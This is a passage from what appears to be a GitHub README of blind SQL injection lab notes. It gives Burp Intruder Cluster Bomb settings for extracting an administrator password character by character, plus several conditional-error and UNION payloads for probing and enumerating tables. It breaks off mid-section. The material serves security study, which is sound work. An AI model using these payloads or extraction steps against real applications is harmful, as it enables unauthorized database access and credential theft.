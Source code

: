 <br>

Burp Intruder or the script in the "Scripts" folder can be used to help automate the extraction of password:

For Burp Intruder use the following configurations:
   * Attack Type:  Cluster Bomb
   * Payload Positions: 2 position markers need to be set:
      * The first one should be on the character offset position in the password -> ...substring(password, $$, 1)
      * The second marker should be on the actually character to test -> ...where username='administrator')='$$
   * Payloads:
      * First marker - Numbers From 1 to 20
      * Second marker - include alphanumeric characters (Burp Pro has the payload list that can be added.)
   * View Results: Filter by the Response Length column or use the Grep function to search for the keyword. After sorting, it should be easy to manually put together the password.
   
   * Note:  If having trouble sorting by 2 columns in Burp Suite.  You can copy/paste only the necessary columns in an Excel sheet, sort them appropriately by the "Payload 1" request so they are in order (1-20) positions.  Then use the =CONCAT() command on the "Payload 2" column so the password is combined automatically.


<br><br><br>

#### SQLi Blind Conditional Errors Examples


* Identify if the following 2 payloads result in a notable difference in the responses from the application:


    * ' and 1=1--

    * ' and 1=0--


* Identify if the below payloads cause an SQL exception or error message.  Dividing by zero may cause an exception:


    * ' and to_char(1/1)=1--

    * ' and to_char(1/0)=1--

<br>

* **Payloads to enumerate table names:**

```
'||(select '' from {tableName} where rownum = 1)||'
```
```
'union select 'a' from {tableName} where 1=1--
```


* **Payloads to determine if there is a user named administrator on the table called users.**  If the <u>user exists</u>, then an error (1/0) will result.  Basically, if the <u>query is valid</u> then an exception will occur, if it is <u>not valid</u> then the '' will be executed:
